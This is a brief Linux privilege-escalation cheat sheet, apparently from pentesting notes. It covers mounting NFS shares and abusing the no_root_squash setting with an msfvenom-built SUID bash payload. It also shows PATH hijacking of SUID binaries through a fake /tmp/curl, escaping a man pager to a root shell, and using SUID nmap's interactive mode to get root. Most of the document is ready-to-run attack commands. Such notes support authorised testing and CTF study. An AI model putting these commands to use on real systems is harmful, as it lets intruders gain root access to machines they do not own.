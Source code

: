 #### Mount an NFS Share
```
mount -o rw,vers=2 <TARGET>:<SHARE> <LOCAL_DIRECTORY>
```

### Root squashing
Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group. While this behavior is default, it can be disabled!

### No_root_squash
no_root_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Create payload to the mounted share and set SUID bit
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```

## Tips and tricks
#### Exploiting path on binary
If a binary has a SUID and doesn’t use full path for executing something, you can manipulate the path to run another binary (/bin/sh).
- https://github.com/jondonas/linux-exploit-suggester-2
```
echo /bin/bash > /tmp/curl
chmod 777 /tmp/curl
export PATH=/tmp:$PATH
<path to binary>
```

#### Man pages
As the pager is being executed with root privileges, we can break out of the pager with a root shell. Go into man page and enter `
```
!/bin/bash
```
 
#### SUID nmap
```
nmap --interactive
!sh
whoami
#root
```
